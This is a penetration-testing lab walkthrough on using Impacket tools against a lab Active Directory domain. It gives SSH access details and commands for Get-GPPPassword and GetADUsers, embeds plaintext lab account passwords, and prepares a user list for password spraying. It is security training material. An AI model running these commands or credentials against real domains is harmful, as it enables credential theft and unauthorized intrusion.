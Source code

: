 ```yaml
---
publish: true
---
```

This lab provides an introduction to the use of the Impacket Python classes provided by SecureAuthCorp. This toolkit is among a pentester's favorites. Some of the tools reviewed in this lab are listed below  
* Get-GPPPassword  
* GetUserSPNs  
* Secretsdump.py  
* GetADUsers.py  
  
The domain passwords we discovered in user attributes will be useful for these labs. As recommended during an earlier lab, you will need to reference previously compromised accounts to use some of the tools in this lab. For example, SecretsDump, GetGPPPassword, GetUserSPNs rely on a domain user account for usage.
# Objectives
This lab provides an opportunity to interact with one of the most important toolkits used by security analysts, penetration testers, and hackers alike.
# Methods
* Active impacket's Python environment  
* Review tools in /examples/  
* Run Get-GPPPassword.py  
* Run Get-UserSPNs.py  
* Run (cheat) Secretsdump.py  
* Run Get-ADUsers.py

# System to Execute On
Operate this lab on Linux System Nux01

```
ssh doadmin@20.232.164.198
```
# Activate Python Dependency Environment

First we will prepare a Python Dependency environment to execute the Impacket tools within.

Run these commands to prepare the environment and list the tools of Impacket.

```bash
deactivate
sudo -s
cd /opt/impacket
cd examples
ls #AllTheTools
```

With setup file
```bash
sudo python3 ./setup.py install
```
# Attack: GetGPPasswords.py
Our first investigation is going to search the domain for group policy preference passwords. You might laugh here and say "yeah, that is not a thing any longer. You just won't find it." This showed up in a report written for a customer in the second half of December, 2021. The recovered password was used for domain escalation. It. Still. Happens.

Your target domain controller IP address is: `192.168.2.4`

Run the following command to see the Get-GPPPasswords.py quick help file.

```bash
Get-GPPPassword.py
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206014733529.png)

Remember the earlier mentions of credential maintenance? You need to find the user accounts in your BadBlood deployment that were compromised, both username and password.

**This lab requires strict adherence to the use of single quotes: '**

Determine which user account you plan to use with these tools. Both Get-* tools only require minimal domain privilege. SecretsDump requires higher privileges for the account due to the nature of remote registry access and making requests for the contents of LSA.

To clarify - Get-GPPPassword reviews the contents of the domain's SYSVOL share, which under most circumstances is readable by the entire "Domain Users" group.

Lets excute Get-GPPPasswords with an account credential observed earlier.

```bash
Get-GPPPassword.py 'doazlab.com'/'ella_mejia':'Yzafqau7r3EQdrdw!#Eiunp'@'192.168.2.4'
```

Sadly, the results indicate that there were no group policy preference passwords available on this domain. That's ok, it was expected.

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206015130366.png)

If you do not have credentials to use, feel free to use your doazlab\doadmin:DOLabAdmin1! account. That command is copied below if you need it.

```bash
Get-GPPPassword.py 'doazlab.com'/'doadmin':'DOLabAdmin1!'@'192.168.2.4'
```

# Attack: GetADUsers.py
This Python class was written to enumerate AD users as either individuals or en masse. We are going to use it here to dump a list of users out of the Active Directory environment and later as the user list for password spraying.

The following command is used to dump a list of to both the console and to create a file (tee) in the /opt/ directory called adusers.txt.
- TODO
```bash
sudo -s
cd /opt/impacket/
source imp-env/bin/activate
cd examples/
python3 GetADUsers.py -all -ts doazlab.com/doadmin:'DOLabAdmin1!' -dc-ip 192.168.2.4 |tee -a /opt/adusers.txt
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206020514314.png)

Exit the virtual Impacket environment gracefully.

```bash
deactivate
cd /opt/
ls
wc -l adusers.txt
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206020814255.png)

